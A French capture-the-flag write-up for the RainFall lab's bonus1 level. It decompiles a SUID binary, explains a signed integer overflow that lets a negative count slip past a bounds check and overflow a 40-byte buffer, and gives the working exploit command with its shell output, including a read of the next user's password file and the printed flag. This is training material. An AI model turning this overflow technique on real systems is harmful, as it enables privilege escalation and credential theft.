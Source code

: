 # RainFall CTF - Bonus1

## Reconnaissance

### Fichier trouvé
```bash
bonus1@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 bonus2 users 5043 Mar  6  2016 bonus1
```

**Observations :**
- Exécutable avec SUID bit activé (`s` dans les permissions)
- Appartient à `bonus2` (propriétaire) et `users` (groupe)
- Peut être exécuté avec les privilèges de `bonus2`

## Analyse statique avec Ghidra

### Code décompilé
```c
undefined4 main(undefined4 param_1,int param_2)
{
  undefined4 uVar1;
  undefined1 local_3c [40];
  int local_14;
  
  local_14 = atoi(*(char **)(param_2 + 4));
  if (local_14 < 10) {
    memcpy(local_3c,*(void **)(param_2 + 8),local_14 * 4);
    if (local_14 == 0x574f4c46) {
      execl("/bin/sh","sh",0);
    }
    uVar1 = 0;
  }
  else {
    uVar1 = 1;
  }
  return uVar1;
}
```

### Code traduit en langage compréhensible
```c
int main(int argc, char **argv) {
    char buffer[40];
    int num;
    
    num = atoi(argv[1]);                    // Convertit argv[1] en entier
    if (num < 10) {
        memcpy(buffer, argv[2], num * 4);   // Copie num*4 bytes d'argv[2]
        if (num == 0x574f4c46) {            // Vérifie si num == "FLOW"
            execl("/bin/sh", "sh", 0);      // Lance un shell !
        }
        return 0;
    } else {
        return 1;
    }
}
```

## Analyse des vulnérabilités

### Buffer Overflow avec Integer Overflow
La vulnérabilité réside dans la ligne :
```c
memcpy(local_3c, *(void **)(param_2 + 8), local_14 * 4);
```

**Problèmes identifiés :**
1. **Vérification insuffisante** : `local_14 < 10` ne protège pas contre les nombres négatifs
2. **Integer overflow** : `local_14 * 4` peut déborder avec des valeurs négatives
3. **Pas de vérification de taille** pour le buffer de 40 octets

### Condition de victoire
Pour obtenir un shell, il faut que `local_14 == 0x574f4c46` ("FLOW" en ASCII).

## Stratégie d'exploitation

### Objectif
Écraser la variable `local_14` avec la valeur `0x574f4c46` tout en contournant la condition `local_14 < 10`.

### Layout de la pile
```
Stack Layout:
[buffer - 40 bytes] [local_14 - 4 bytes]
```

Pour écraser `local_14`, nous devons copier `40 + 4 = 44` octets.

### Calcul de l'integer overflow

#### Étape 1 : Trouver la valeur qui donne 44 octets
Nous voulons : `local_14 * 4 = 44`
Donc : `local_14 = 11`

#### Étape 2 : Contourner la condition avec l'overflow
Puisque `11 > 10`, nous devons utiliser un nombre négatif qui, multiplié par 4, donne 44.

En arithmétique 32-bit avec overflow :
```
local_14 = 11 + (2^32 / 4) * (-1)
local_14 = 11 - 1073741824
local_14 = -1073741813
```

#### Vérification
- `local_14 = -1073741813 < 10` ✓ (passe la condition)
- `local_14 * 4 = 44` ✓ (après overflow 32-bit)

## Construction de l'exploit

### Structure du payload
```
Payload = [buffer_remplissage] + [valeur_FLOW]
        = 'A' * 40 + '\x46\x4c\x4f\x57'
```

### Explication des composants
1. **`'A' * 40`** : Remplit le buffer de 40 octets
2. **`'\x46\x4c\x4f\x57'`** : Valeur `0x574f4c46` ("FLOW") en little-endian

### Arguments du programme
- **argv[1]** : `"-1073741813"` (notre valeur calculée)
- **argv[2]** : Le payload de 44 octets

## Exploitation finale

### Commande d'exploitation
```bash
./bonus1 "-1073741813" "$(python -c "print 'A'*40 + '\x46\x4c\x4f\x57'")"
```

### Résultat
```bash
bonus1@RainFall:~$ ./bonus1 "-1073741813" "$(python -c "print 'A'*40 + '\x46\x4c\x4f\x57'")"
$ ls
ls: cannot open directory .: Permission denied
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

## Résultats

### Flag obtenu
```
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
